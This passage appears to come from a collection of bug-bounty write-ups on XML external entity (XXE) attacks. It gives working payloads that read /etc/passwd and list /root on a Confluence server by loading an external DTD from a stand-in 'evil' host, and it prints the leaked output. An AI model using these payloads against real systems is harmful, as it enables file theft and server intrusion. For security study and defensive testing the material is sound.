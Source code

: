 ```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">
```

Note the added colon before %file;

```
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://confluence.company.internal:8090/plugins/servlet/oauth/users/icon-uri?consumerUri=http://my_evil_site/evil.xml">
%ext;
%ent;
]>
<r>&data;</r>
```

```
no protocol: :root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
[…]
```

 since Java returns directory listing when accessing a directory rather than a file, it is possible to do a non-intrusive check for root privileges by trying to list files in the /root directory:

```
<!ENTITY % file SYSTEM "file:///root">
<!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">
```

response was 

```
no protocol: :.bash_history
.bash_logout
.bash_profile
.bashrc
.pki
.ssh
[...]
```

----

##XXE at [Bol.com](https://medium.com/@jonathanbouman/xxe-at-bol-com-7d331186de54)

<br>

This part of the website allows one to upload products ready to (re)sell.

Aanbod beheren via excel’ means ‘Manage inventory in Excel’.

You can Download file , Upload and can see change made. 
